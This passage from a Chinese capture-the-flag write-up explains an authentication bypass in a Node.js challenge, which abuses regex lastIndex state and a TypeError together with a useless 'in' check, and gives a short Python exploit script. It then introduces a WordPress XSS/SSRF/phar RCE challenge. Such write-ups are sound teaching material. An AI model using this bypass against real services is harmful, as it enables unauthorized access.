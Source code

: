 > 每次请求都会通过`build_banned_users_regex()`生成一个新的正则表达式使得每次匹配都从`lastIndex=0`开始，如果能够在第一次匹配到`admin`使得`lastIndex`索引变成`5`之后，第二次没有生成新的就匹配，那么就成功绕过了第一层的鉴权，而这里是使用`try-catch`进行处理的，即使抛出异常，程序也不会中断。所以可以使用其它类型的`ban_username`，就会抛出`TypeError`异常，从而不生成新的`lastIndex`，绕过第一层。

第二层的鉴权，这一层的鉴权就是一个摆设，因为这里是`node`(并不是 Python 什么的)，它返回的并不是元素，所以`test2`一直都是`false`：

```plain
// 基于 in 关键字的封禁用户匹配系统的设计与实现
    let test2 = (username in banned_users)
    console.log(`使用in关键字匹配${username}的结果为：${test2}`)
    if (test2){
        console.log("第二个判断匹配到封禁用户：",username)
        res.send("用户'"+username + "'被封禁，无法鉴权！")
        return
    }
    if (username in users && users[username] === password) {
        next()
        return
    }
    res.send("用户名或密码错误，鉴权失败！")
```

```plain
username="admin"
banned_users=["admin"]
let test2 = (username in banned_users)
console.log(test2)
#False
```

解题脚本如下：

```plain
import urllib.parse

import requests
from urllib.parse import *

url='url'
session=requests.Session()
resp=session.post(urllib.parse.urljoin(url,"/api/register"),json={"username":"aiwin","password":"test"})
resp=session.post(urllib.parse.urljoin(url,"/api/ban_user"),json={"username":"aiwin","password":"test","ban_username":{"1":"error"}})
resp=session.post(urllib.parse.urljoin(url,"/api/flag"),json={"username":"admin","password":"admin"})
resp=session.post(urllib.parse.urljoin(url,"/api/flag"),json={"username":"admin","password":"admin"})
print(resp.text)
```

# \[NCTF2023\] ez\_wordpress

这道题出的真的很好，也很接近真实的环境，主要是通过`wordpress`的插件漏洞配合打`wordpress`的**RCE**链子，分别是通过 XSS 漏洞进行文件上传，通过 SSRF 触发`phar`从而触发**RCE**反序列化链子的命令执行，达到 RCE。
